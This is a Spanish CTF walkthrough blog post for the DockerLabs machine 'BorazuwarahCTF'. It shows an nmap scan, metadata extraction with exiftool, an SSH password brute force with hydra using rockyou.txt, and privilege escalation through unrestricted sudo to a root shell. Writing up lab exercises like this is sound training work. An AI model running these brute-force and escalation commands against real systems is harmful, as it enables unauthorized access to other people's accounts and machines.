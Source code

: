 ```yaml
---
layout: post
title: "BorazuwarahCTF"
date: 2024-08-15 17:25:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> BorazuwarahCTF </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/dockerlabs/borazuwarahctf/host.png){:.margin}

**1\.** Aqui tenemos los puertos escaneados de la maquina.

`sudo nmap -p- -sS -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/nmap.png){:.margin}

**2\.** En la web tenemos una imagen.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/80.png){:.margin}

**3\.** Descargo la imagen de la web para analizar sus metadatos. 

`wget http://172.17.0.2/imagen.jpeg -q`

`exiftool imagen.jpeg`

![img](/notas/public/img/dockerlabs/borazuwarahctf/exiftool.png){:.margin}

**4\.** Toca hacer fuerza bruta a la contraseña de borazuwarah por ssh.

`hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/hydra.png){:.margin}

**5\.** Me conecto por ssh con el usuario borazuwarah.

`ssh borazuwarah@172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/ssh.png){:.margin}

**6\.** Escalando privilegios.

_6.1- Reviso los permisos sudo del usuario, tengo todos los permisos_

`sudo -l`

![img](/notas/public/img/dockerlabs/borazuwarahctf/sudol.png){:.margin}

_6.2- Ejecutamos la bash como sudo_

`sudo /bin/bash`

![img](/notas/public/img/dockerlabs/borazuwarahctf/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>